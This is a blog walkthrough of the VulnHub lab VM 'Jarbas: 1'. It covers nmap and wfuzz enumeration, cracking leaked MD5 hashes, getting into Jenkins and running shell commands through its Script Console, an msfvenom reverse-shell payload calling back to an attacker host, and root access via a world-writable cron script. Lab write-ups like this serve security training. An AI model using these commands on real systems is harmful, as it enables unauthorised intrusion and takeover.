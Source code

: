 ```yaml
---
layout: post
date: 2018-08-03 12:16:52 +0000
last_modified_at: 2018-12-09 08:17:42 +0000
title: "Jarbas: 1 Walkthrough"
subtitle: "Those Were the Days"
category: Walkthrough
tags: [VulnHub, "Jarbas"]
comments: true
image:
  feature: jarbas-1-walkthrough.jpg
  credit: Free-Photos / Pixabay
  creditlink: https://pixabay.com/en/books-library-education-literature-768426/
---
```


This post documents the complete walkthrough of Jarbas: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

A tribute to a nostalgic Brazilian search engine in the end of 90’s. The aim is to get a `root` shell.

### Information

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

`nmap` finds `22/tcp`, `80/tcp`, `3306/tcp`, and `8080/tcp` open. Nothing unusual here.

### Directory/File Enumeration

Let's use `wfuzz` to determine any directories or files of interest. I use the following options.

```
# export WORDLIST=/usr/share/wfuzz/wordlists/general
# wfuzz -w $WORDLIST/megabeast.txt -w $WORDLIST/extensions_common.txt --hc 404 -t 64 http://192.168.10.130/FUZZFUZ2Z
```

Here's the result of running the command.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.10.130/FUZZFUZ2Z
Total requests: 1272964

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

009671:  C=200     13 L	      28 W	    359 Ch	  "access - .html"
582568:  C=200   1006 L	    4983 W	  74409 Ch	  "icons - /"
600443:  C=200    403 L	    1784 W	  32808 Ch	  "index - .html"
```

Here's what `access.html` looks like.

![access.html](/assets/images/posts/jarbas-1-walkthrough/01cca602.png)

The usernames and password hashes is a clear invitation to perform offline password cracking.

### Jenkins

**John the Ripper** can crack the password hashes as follows.

```
# john --format=raw-md5 --show hashes.txt
tiago:italia99
trindade:marianna
eder:vipsu

3 password hashes cracked, 0 left
```

It turns out that **Jenkins** is running behind `8080/tcp` seen earlier in the `nmap` scan. Here's what it looks like.

![Jenkins](/assets/images/posts/jarbas-1-walkthrough/fd1eb8f9.png)

The credential (`eder:vipsu`) allows us to login in to **Jenkins**.

![Logged In](/assets/images/posts/jarbas-1-walkthrough/9e1fb477.png)

I soon discover that **Jenkins** allows the execution of Groovy scripts in **Script Console**.

![Script Console](/assets/images/posts/jarbas-1-walkthrough/7507d3e1.png)

### Groovy Script

According to [Wikipedia](https://en.wikipedia.org/wiki/Apache_Groovy),

> Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, Perl, and Smalltalk. It can be used as both a programming language and a scripting language for the Java Platform, is compiled to Java virtual machine (JVM) bytecode, and interoperates seamlessly with other Java code and libraries.

The console is able to execute shell commands like so.

![id](/assets/images/posts/jarbas-1-walkthrough/407406c2.png)

The result above shows the output of running `id`. We are executing shell commands in the context of the `jenkins` account.

Let's see if we can execute `wget` to get ourselves a shell.

![wget](/assets/images/posts/jarbas-1-walkthrough/df946598.png)

Awesome. Now, we can transfer a reverse shell executable over. But, before we do that, we need to determine if we are dealing with a 32-bit or 64-bit OS.

![uname -a](/assets/images/posts/jarbas-1-walkthrough/c08a81a2.png)

Let's generate the reverse shell on our attacking machine:

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
```

We can now set up `SimpleHTTPServer` on our attacking and transfer it over with `wget` at the **Script Console**.

_On our attacking machine_

![wget](/assets/images/posts/jarbas-1-walkthrough/c842c9da.png)

_At the **Script Console**_

![wget](/assets/images/posts/jarbas-1-walkthrough/89ef4e95.png)

Remember to make the `/tmp/rev` executable with `chmod +x /tmp/rev`.

![ls](/assets/images/posts/jarbas-1-walkthrough/18f4e608.png)

We should be good to go. Let's run our `netcat` listener and execute `/tmp/rev` at the console.

![shell](/assets/images/posts/jarbas-1-walkthrough/40bd5800.png)

We have shell.

### Privilege Escalation

I had my hopes pinned on [CVE-2017-1000253](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt) from the get-go.

![CentOS](/assets/images/posts/jarbas-1-walkthrough/0e4bacad.png)

The VM is running on CentOS 7 with a 3.10 kernel. The conditions are almost identical to CVE-2017-1000253.

Too bad the VM is one version shy of being vulnerable. I've no choice but to look for other ways to gain root access.

During the process of checking for world-writable files in the VM, I stumbled upon this.

```
$ find / -type f -perm /o+w -ls 2>/dev/null
...
844412    4 -rwxrwxrwx   1 root     root           50 Apr  1 14:00 /etc/script/CleaningScript.sh
```

![CleaningScript.sh](/assets/images/posts/jarbas-1-walkthrough/d9f3a650.png)

If I had to guess from its content, I would say this is probably running under `root`'s `crontab`.

Let's append our reverse shell to the script.

![rev](/assets/images/posts/jarbas-1-walkthrough/4b94503e.png)

Boom. A `root` shell.

![root](/assets/images/posts/jarbas-1-walkthrough/d710bca7.png)

My guess was right.

![crontab](/assets/images/posts/jarbas-1-walkthrough/2198ba7e.png)

### Eyes on the Prize

Getting the flag is trivial.

![flag](/assets/images/posts/jarbas-1-walkthrough/bad0fdf5.png)

:dancer:

[1]: https://www.vulnhub.com/entry/jarbas-1,232/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
